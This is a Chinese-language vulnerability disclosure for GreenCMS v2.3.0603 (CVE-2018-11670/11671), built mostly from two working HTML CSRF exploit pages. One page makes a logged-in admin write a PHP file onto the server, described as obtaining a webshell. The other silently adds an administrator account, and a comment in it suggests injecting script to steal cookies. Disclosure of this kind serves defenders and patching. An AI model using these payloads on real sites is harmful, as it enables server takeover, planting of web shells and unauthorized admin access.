### 漏洞简介  

|漏洞名称|上报日期|漏洞发现者|产品首页|软件链接|版本|CVE编号|
--------|--------|---------|--------|-------|----|------|
|GreenCMS-v2.3.0603存在CSRF漏洞可获取webshell&增加管理员账户|2018-06-02|惜潮|[https://github.com/GreenCMS/GreenCMS](https://github.com/GreenCMS/GreenCMS) | [https://github.com/GreenCMS/GreenCMS](https://github.com/GreenCMS/GreenCMS) |v2.3.0603| [CVE-2018-11670](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-11670)/[CVE-2018-11671](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-11671)|  

#### 漏洞概述  

> 恶意攻击者可以精心伪造一个Html页面 从而获取网站webshell。GreenCMS是一个在github上开源的CMS系统，漏洞发现者已经将漏洞信息通过[issues](https://github.com/GreenCMS/GreenCMS/issues/108)/[issues](https://github.com/GreenCMS/GreenCMS/issues/109)告知作者。   


### POC实现代码如下：  

> 从CSRF到get webshell 的exp代码如下：  

``` html
<span style="font-size:18px;"><!DOCTYPE html> 
<html lang="en"> 
<head> 
    <meta charset="UTF-8"> 
    <title>csrf测试</title> 
</head> 
<form action="http://127.0.0.1//14/index.php?m=admin&c=media&a=fileconnect" method="POST" id="transfer" name="transfer">
    <!-- 下面的是生成文件名为xc.php的脚本文件 路径 127.0.0.1/Upload/xc.php -->
    <script src="http://127.0.0.1/14/index.php?m=admin&c=media&a=fileconnect&cmd=mkfile&name=xc.php&target=l1_XA&_=1527839615462"></script>
    <input type="hidden" name="cmd" value="put">
    <input type="hidden" name="target" value="l1_eGMucGhw">
　    <input type="hidden" name="content" value="<?php phpinfo();?>">
    <!-- 下面的是提交表单 将content中的命令写入脚本内 -->
    <button type="submit" value="Submit">WebShell</button>
    </form>
    </body>
</html></span>
```
> 从CSRF到增加管理员 的exp代码如下：  

``` html
<span style="font-size:18px;"><!DOCTYPE html>  
<html lang="en">  
<head>  
    <meta charset="UTF-8">  
    <title>csrf测试</title>  
</head>  
　　<body>  
    　　　　<form action="http://127.0.0.1//14/index.php?m=admin&c=access&a=adduserhandle" method="POST" id="transfer" name="transfer">  
　　　　　　　　<input type="hidden" name="user_id0" value="1">  
　　　　　　　　<input type="hidden" name="user_login" value="test1">  <!--在这里可以添加JS脚本用于获取cookies  csrf+xss-->
　　　　　　　　<input type="hidden" name="password" value="test1">  
　　　　　　　　<input type="hidden" name="rpassword" value="test1">  
　　　　　　　　<input type="hidden" name="user_nicename" value="123">  
　　　　　　　　<input type="hidden" name="user_email" value="123%40Qq.com">  
　　　　　　　　<input type="hidden" name="user_url" value="www.baidu.com">  
　　　　　　　　<input type="hidden" name="user_intro" value="test">  
　　　　　　　　<input type="hidden" name="user_status" value="1">  
　　　　　　　　<input type="hidden" name="role_id" value="1">
        <button type="submit" value="Submit">添加管理员</button>  
　　　　　　</form>  
    </body>
</html></span>
```
